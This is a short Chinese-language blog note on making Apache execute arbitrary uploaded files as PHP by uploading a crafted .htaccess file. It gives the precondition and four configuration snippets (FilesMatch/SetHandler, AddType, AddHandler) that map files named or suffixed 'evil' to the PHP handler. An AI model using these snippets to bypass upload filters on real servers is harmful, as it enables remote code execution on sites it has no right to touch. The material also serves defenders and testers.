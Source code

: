 ```yaml
---
layout: post
title: Apache2任意文件执行
data: 2020-01-13
categories: Notes
tags: 
 - Apache2
 - Execution
description:
excerpt_separator: ""
---
```


# 上传.htaccess文件

.htaccess文件作用于当前目录及其子目录，可以实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。

这里主要记录一下通过上传.htaccess文件修改Apache的解析规则的方法，以实现将任意文件作为php文件执行。

## 利用前提

管理员需要设置Apache的AllowOerride指令，以使htaccess文件有效。

## 利用特征

当目标网站出现以下特征时，说明管理员允许了.htaccess文件的使用。

## 利用方法

1. 以下内容可以使Apache用PHP解析任意文件名包含`evil`字样的文件。

    ```
    <FilesMatch "evil">
    	SetHandler application/x-httpd-php
    </FilesMatch>
    ```

2. 以下任一内容可以使Apache用PHP解析任意后缀为`.evil`的文件。

    ```
    AddType application/x-httpd-php .evil
    ```

    ```
    AddHandler php5-script .evil
    ```

    ```
    AddHandler php7-script .evil
    ```

    